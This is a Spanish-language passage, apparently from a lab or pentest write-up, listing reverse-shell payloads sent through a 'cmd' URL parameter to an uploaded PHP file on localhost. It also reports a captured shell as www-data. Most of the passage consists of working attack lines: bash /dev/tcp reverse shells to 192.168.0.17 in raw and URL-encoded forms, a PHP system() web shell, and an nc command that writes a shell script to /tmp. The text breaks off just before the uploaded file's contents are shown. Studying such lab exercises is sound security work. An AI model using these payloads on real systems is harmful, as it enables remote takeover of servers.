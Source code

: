 Ejemplo de payloads utilizados en el url cmd como parametros:

```json

bash+-c+%22bash+-i+%3E%26+/dev/tcp/192.168.0.17/4444+0%3E%261%22

bash -i >& /dev/tcp/192.168.0.17/4444 0>&1

bash -i >%26 /dev/tcp/192.168.0.17/4444 0>%261

cmd=bash%20-i%20%3E%26%20/dev/tcp/192.168.0.17/4444%200%3E%261

<?php system("bash -i >& /dev/tcp/192.168.0.17/4444 0>&1"); ?>

localhost:8888/upload/hola.jpg/hola.php?cmd=nc%20192.168.0.17%208000%20%3E%20/tmp/shell.sh

http://localhost:8888/upload/hola.php/hola.php?cmd=bash%20-i%20%3E%26%20/dev/tcp/192.168.0.17/4444%200%3E%261

localhost:8888/upload/shell1.php/shell.php?cmd=bash%20-i%20>%26%20/dev/tcp/192.168.0.17/4444%200>%261

```

- **Captura de reverse shell interactiva** mostrando IP y usuario `www-data`:     
![RevShell](/assets/images/posts/atrium-desarrollo/shellrev.png)
    
- Recursos de pruebas adicionales: [Revshells](https://www.revshells.com/)    
- Varias pruebas con payloads de bash y PHP, usando rutas y comandos URL codificados.    

Contenido del arhcivo PHP subido para entablar conexion: